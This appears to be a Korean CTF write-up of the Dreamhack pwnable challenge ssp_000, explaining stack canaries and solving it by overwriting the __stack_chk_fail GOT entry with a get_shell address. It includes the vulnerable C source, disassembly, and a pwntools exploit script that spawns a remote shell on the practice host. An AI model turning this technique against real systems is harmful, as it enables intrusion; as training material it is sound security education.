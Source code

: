```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN ssp_000"
excerpt: "드림핵 포너블 ssp_000 문제풀이"
tags: [Dreamhack, pwnable, ctf, writeup]
math: true
date: 2022-12-21 15:30
---
```


이번 ssp_000문제는 카나리에 대한 문제다. 메모리 스텍의 오염을 인식하고 오염되었을 경우 바이너리를 강제 종료시키는 기능을 한다. 스텍 사이에 랜덤의 값을 넣고 이를 검사해 스텍이 오버플로우 되었는지 확인한다. 이렇게 메모리 커럽션을 어렵게 하는 기법을 Stack Smashing Protector(SSP)라고 한다.

우선 먼저 코드를 살펴보자.
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell() {
    system("/bin/sh");
}

int main(int argc, char *argv[]) {
    long addr;
    long value;
    char buf[0x40] = {};

    initialize();


    read(0, buf, 0x80);

    printf("Addr : ");
    scanf("%ld", &addr);
    printf("Value : ");
    scanf("%ld", &value);

    *(long *)addr = value;

    return 0;
}
```

함수로 쉘이 함수로 있고 main함수는 간단한 버퍼 오버플로우를 일으킬 수 있다. 다만 실행시킨 바이너리의 카나리 값을 릭할 방법이 마땅치 않는다. 이 경우는 조금 생각을 해볼 필요가 있다. 만약 스텍을 오염시키면 __stack_chk_fail 함수가 실행되면서 종료가 될것이다.

다만 main함수를 보면 원하는 위치에 값을 바꿔쓸수 있는것을 볼수 있다. 이를 이용해 스텍이 오버플로우 되었을때 동작할 함수를 __stack_chk_fail가 아닌 get_shell함수로 바꿔주면 쉘을 얻을 수 있을 것이다.

우선 main함수의 어셈블리를 확인해보자
```c
   0x00000000004008fb <+0>:     push   rbp
   0x00000000004008fc <+1>:     mov    rbp,rsp
   0x00000000004008ff <+4>:     sub    rsp,0x70
   0x0000000000400903 <+8>:     mov    DWORD PTR [rbp-0x64],edi
   0x0000000000400906 <+11>:    mov    QWORD PTR [rbp-0x70],rsi
   0x000000000040090a <+15>:    mov    rax,QWORD PTR fs:0x28
   0x0000000000400913 <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400917 <+28>:    xor    eax,eax
   0x0000000000400919 <+30>:    lea    rdx,[rbp-0x50]
   0x000000000040091d <+34>:    mov    eax,0x0
   0x0000000000400922 <+39>:    mov    ecx,0x8
   0x0000000000400927 <+44>:    mov    rdi,rdx
   0x000000000040092a <+47>:    rep stos QWORD PTR es:[rdi],rax
   0x000000000040092d <+50>:    mov    eax,0x0
   0x0000000000400932 <+55>:    call   0x40088e <initialize>
   0x0000000000400937 <+60>:    lea    rax,[rbp-0x50]
   0x000000000040093b <+64>:    mov    edx,0x80
   0x0000000000400940 <+69>:    mov    rsi,rax
   0x0000000000400943 <+72>:    mov    edi,0x0
   0x0000000000400948 <+77>:    call   0x400710 <read@plt>
   0x000000000040094d <+82>:    mov    edi,0x400a55
   0x0000000000400952 <+87>:    mov    eax,0x0
   0x0000000000400957 <+92>:    call   0x4006f0 <printf@plt>
   0x000000000040095c <+97>:    lea    rax,[rbp-0x60]
   0x0000000000400960 <+101>:   mov    rsi,rax
   0x0000000000400963 <+104>:   mov    edi,0x400a5d
   0x0000000000400968 <+109>:   mov    eax,0x0
   0x000000000040096d <+114>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400972 <+119>:   mov    edi,0x400a61
   0x0000000000400977 <+124>:   mov    eax,0x0
   0x000000000040097c <+129>:   call   0x4006f0 <printf@plt>
   0x0000000000400981 <+134>:   lea    rax,[rbp-0x58]
   0x0000000000400985 <+138>:   mov    rsi,rax
   0x0000000000400988 <+141>:   mov    edi,0x400a5d
   0x000000000040098d <+146>:   mov    eax,0x0
   0x0000000000400992 <+151>:   call   0x400750 <__isoc99_scanf@plt>
   0x0000000000400997 <+156>:   mov    rax,QWORD PTR [rbp-0x60]
   0x000000000040099b <+160>:   mov    rdx,rax
   0x000000000040099e <+163>:   mov    rax,QWORD PTR [rbp-0x58]
   0x00000000004009a2 <+167>:   mov    QWORD PTR [rdx],rax
   0x00000000004009a5 <+170>:   mov    eax,0x0
   0x00000000004009aa <+175>:   mov    rcx,QWORD PTR [rbp-0x8]
   0x00000000004009ae <+179>:   xor    rcx,QWORD PTR fs:0x28
   0x00000000004009b7 <+188>:   je     0x4009be <main+195>
   0x00000000004009b9 <+190>:   call   0x4006d0 <__stack_chk_fail@plt>
   0x00000000004009be <+195>:   leave  
   0x00000000004009bf <+196>:   ret
```

우리가 해당 바이너리를 익스하기 위해 필요한 것은 두가지다. get_shell 함수의 주소와 __stack_chk_fail 함수의 got 주소이다. 이것들 모두 쉽게 확인할 수 있다. __stack_chk_fail의 got는 해당 함수 plt의 주소를 disass 하면 확인할 수 있다.

```c
pwndbg> disass get_shell
Dump of assembler code for function get_shell:
   0x00000000004008ea <+0>:     push   rbp
   0x00000000004008eb <+1>:     mov    rbp,rsp
   0x00000000004008ee <+4>:     mov    edi,0x400a4d
   0x00000000004008f3 <+9>:     call   0x4006e0 <system@plt>
   0x00000000004008f8 <+14>:    nop
   0x00000000004008f9 <+15>:    pop    rbp
   0x00000000004008fa <+16>:    ret    
End of assembler dump.
```

```c
pwndbg> disass 0x4006d0
Dump of assembler code for function __stack_chk_fail@plt:
   0x00000000004006d0 <+0>:     jmp    QWORD PTR [rip+0x20094a]        # 0x601020 <__stack_chk_fail@got.plt>
   0x00000000004006d6 <+6>:     push   0x1
   0x00000000004006db <+11>:    jmp    0x4006b0
End of assembler dump.
```

get_shell 함수의 주소는 0x4008ea, __stack_chk_fail 함수의 got값은 0x601020로 확인할 수 있다. 이를 바탕으로 __stack_chk_fail함수 주소를 get_shell 함수로 바꾸기 위해 익스플로잇 코드를 작성해봤다. 해당 익스 코드는 다음과 같다.

```python
from pwn import *
context.update(arch='amd64', os='linux')

c = remote("host3.dreamhack.games", 22697);

stackChkFail = 0x601020
getShell = 0x4008ea

paylaod = "\x90"*0x50

c.send(paylaod)
c.sendlineafter(b"Addr : ", str(stackChkFail))
c.sendlineafter(b"Value : ", str(getShell))

c.interactive()
```

간단하게 카나리 부분을 덮어쓰기 하여 __stack_chk_fail를 인위적으로 일으키면 그전에 바꿔치기한 함수인 get_shell이 실행된다.